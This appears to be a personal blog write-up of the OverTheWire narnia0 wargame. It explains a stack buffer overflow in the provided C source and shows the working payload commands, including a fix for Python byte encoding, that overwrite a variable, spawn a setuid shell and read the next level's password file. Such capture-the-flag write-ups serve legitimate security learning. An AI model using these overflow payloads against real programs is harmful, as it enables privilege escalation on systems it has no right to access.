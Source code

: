 ```yaml
---
layout: post
title: OverTheWire - narnia0
date: 2025-04-05
categories:
  - blog
tags:
  - ctf
  - overthewire
  - ssh
  - binary
  - exploitation
excerpt: ""
---
```

## OverTheWire - narnia0

The Narnia wargames at overthewire.org are designed to help learn basic exploitation techniques. Each level has a binary to exploit, and to make it a bit easier to figure out, the source code is also provided.

### Source for `narnia0.c` (comments added are mine):

```C
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];  // The buffer is 20 characters long

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s", &buf);  // The input can be a string of up to 24 characters, allowing overflow

    printf("buf: %s\n", buf);
    printf("val: 0x%08x\n", val);

    if(val==0xdeadbeef){
        setreuid(geteuid(), geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

Because it's good practice, I like to inspect the binary before executing it:

```sh
narnia0@gibson:/narnia$ file narnia0
narnia0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=72a26cf43f94583cf00e006c1282660780c35766, for GNU/Linux 3.2.0, not stripped
```

### Initial Execution:

```
narnia0@gibson:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: 123456789
buf: 123456789
val: 0x41414141
WAY OFF!!!!
```

It looks like this is a buffer overflow attack. The goal is to overwrite `val` with `0xdeadbeef`. Since `buf` is allocated 20 characters, we can test this by filling it with 20 characters:

```
narnia0@gibson:/narnia$ python3 -c 'print("B" * 20)' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBB
val: 0x41414100
WAY OFF!!!!
```

Just to confirm how far the overflow reaches, I tested with 22 and 24 characters:

```
narnia0@gibson:/narnia$ python3 -c 'print("B" * 22)' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBB
val: 0x41004242
WAY OFF!!!!
narnia0@gibson:/narnia$ python3 -c 'print("B" * 24)' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBBBB
val: 0x42424242
WAY OFF!!!!
```

Now I know exactly how many characters it takes to overwrite `val`. The next step is to craft a payload that places `0xdeadbeef` in the correct location. Since this system uses little-endian byte order, we need to reverse the byte sequence: `0xdeadbeef => de ad be ef => ef be ad de => \xef\xbe\xad\xde`

The command:

```sh
python3 -c 'print("A" * 20 + "\xef\xbe\xad\xde")' | ./narnia0
```

### Unexpected Issue:

```
narnia0@gibson:/narnia$ python3 -c 'print("B" * 20 + "\xef\xbe\xad\xde")' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBï¾
val: 0xbec2afc3
WAY OFF!!!!
```

Hmmm... `val` changed, but not to `0xdeadbeef`. This stumped me for a while. I suspected `print()` was adding an unintended character, so I tried:

```sh
python3 -c 'print("A" * 20 + "\xef\xbe\xad\xde", end="")'
```

but it didn't change the output.

### Debugging and Solution:

During my research, I found that a similar exploit worked using Perl:

```
narnia0@gibson:/narnia$ perl -e 'print "B"x20 . "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ�
val: 0xdeadbeef
```

That worked! So why didn’t my Python command?

It boils down to string encoding differences:

- **Perl** treats `"\xef\xbe\xad\xde"` as raw bytes, sending them exactly as written.
- **Python 3** treats strings as Unicode by default, so `print()` encodes non-ASCII characters in UTF-8, altering the byte sequence.

The fix was to use `sys.stdout.buffer.write()` to ensure raw bytes were written correctly:

```
narnia0@gibson:/narnia$ python3 -c 'import sys; sys.stdout.buffer.write(b"B" * 20 + b"\xef\xbe\xad\xde")' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ�
val: 0xdeadbeef
```

### Getting the Shell:

The "WAY OFF!!!!" message was gone, but I still didn’t see a shell prompt. It turns out `/bin/sh` needs interactive input to remain open. Running the exploit with `cat` kept it from immediately closing:

```
narnia0@gibson:/narnia$ (python3 -c 'import sys; sys.stdout.buffer.write(b"B" * 20 + b"\xef\xbe\xad\xde")'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
[REDACTED]
```

Success! I now have `narnia1` privileges and retrieved the password for the next level.
